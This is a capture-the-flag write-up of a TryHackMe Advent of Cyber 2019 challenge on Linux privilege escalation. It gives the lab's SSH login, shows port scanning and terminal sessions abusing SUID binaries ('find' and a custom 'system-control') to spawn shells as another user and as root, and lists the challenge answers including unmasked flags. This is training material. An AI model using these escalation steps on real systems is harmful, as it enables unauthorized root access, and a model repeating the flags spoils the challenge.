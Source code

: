 # This is the Write Up for day 8 challenge of Advent of Cyber 2K19 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/09/2019

## Description

Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

SSH details:
Username: holly
Password: tuD@4vt0G*TU

`This challenge is all about knowing your way around linux and permission sets.`

## Solution

1. We find all the ports open with our nmap on steriods - `rustscan`. The scan file can be found [here](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/rustscan/all.nmap). 

2. We can then run a full blown scripts scan against the found ports. Results stored [here](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/rustscan/main.nmap). It discloses the found high port is running SSH indeed.

3. We can login using the given credentials. Now let's search a suid file owned by `igor`. Two of them jump out - `nmap` and `find`. Took he find route as described [here](https://gtfobins.github.io/gtfobins/find/#suid). Go explore the the nmap one for yourself.

```bash
holly@ip-10-10-88-219:~$ find / -type f -user igor 2>/dev/null 
/usr/bin/find
/usr/bin/nmap
/home/igor/.bash_history
/home/igor/.viminfo
/home/igor/flag1.txt
holly@ip-10-10-88-219:~$ ls -la /usr/bin/find
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
holly@ip-10-10-88-219:~$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-4.3$ whoami
igor
bash-4.3$ cat /home/igor/flag1.txt
THM{******************************}
```

4. Did the same for the `root` owned suid. You can spot the odd one out. If not let linpeas do it's work. And what better than a binary which is already running as root. Makes the work easier.

```bash
holly@ip-10-10-88-219:~$ find / -perm -u=s -user root 2>/dev/null 
/bin/ping
/bin/umount
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/snap/core/7396/bin/mount
/snap/core/7396/bin/ping
/snap/core/7396/bin/ping6
/snap/core/7396/bin/su
/snap/core/7396/bin/umount
/snap/core/7396/usr/bin/chfn
/snap/core/7396/usr/bin/chsh
/snap/core/7396/usr/bin/gpasswd
/snap/core/7396/usr/bin/newgrp
/snap/core/7396/usr/bin/passwd
/snap/core/7396/usr/bin/sudo
/snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7396/usr/lib/openssh/ssh-keysign
/snap/core/7396/usr/lib/snapd/snap-confine
/snap/core/7396/usr/sbin/pppd
/usr/bin/system-control
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
holly@ip-10-10-88-219:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: whoami
root
holly@ip-10-10-88-219:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: bash -p
root@ip-10-10-88-219:~# cd /root/        
root@ip-10-10-88-219:/root# cat flag2.txt 
THM{******************************}
```


## Brownie Points

1. What port is SSH running on? - **65534**.

2. Find and run a file as igor. Read the file /home/igor/flag1.txt- **THM{d3f0708bdd9accda7f937d013eaf2cd8}**.

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? - **THM{8c8211826239d849fa8d6df03749c3a2}**.


## Extra Treats.

1. Linpeas file here can give you more insight - [file](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/tmp/lin_holly.out).






